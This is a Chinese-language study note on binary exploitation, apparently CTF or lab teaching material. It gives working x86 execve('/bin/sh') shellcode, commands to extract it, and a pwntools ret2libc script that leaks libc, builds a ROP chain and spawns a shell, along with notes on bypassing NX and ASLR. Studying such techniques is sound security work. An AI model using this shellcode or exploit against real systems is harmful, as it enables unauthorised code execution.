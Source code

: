 ##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcode/
```

## plt got .plt.got
![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组
相关工具
- https://github.com/Neetx/Shellcode-Extractor
从elf提取shellcode
## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
```py
from pwn import *
r=process('ret2lib')

puts_got_plt = 0x804a01c
puts_offset =0x00069930

r.recvuntil(':')
r.sendline(str(puts_got_plt))
r.recvuntil(': ')
libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address
print hex(libc_base)
gets_off=0x000690d0             # objdump -D libc |grep gets@
system_off= 0x0003e8f0          # objdump -D libc |grep system@
gets = libc_base+gets_off
system = libc_base+system_off
buf=0x804b000 -30               # cat /proc/702/maps to get writable address 
rop=[
        gets,
        system,
        buf,
        buf
        ]
r.recvuntil(":")
r.sendline('a'*60+flat(rop))
r.sendline("/bin/sh\x00")
r.interactive()

```

### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
leave= mov esp,ebp,pop ebp;
## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## 打开就退出了
用strace分析系统调用
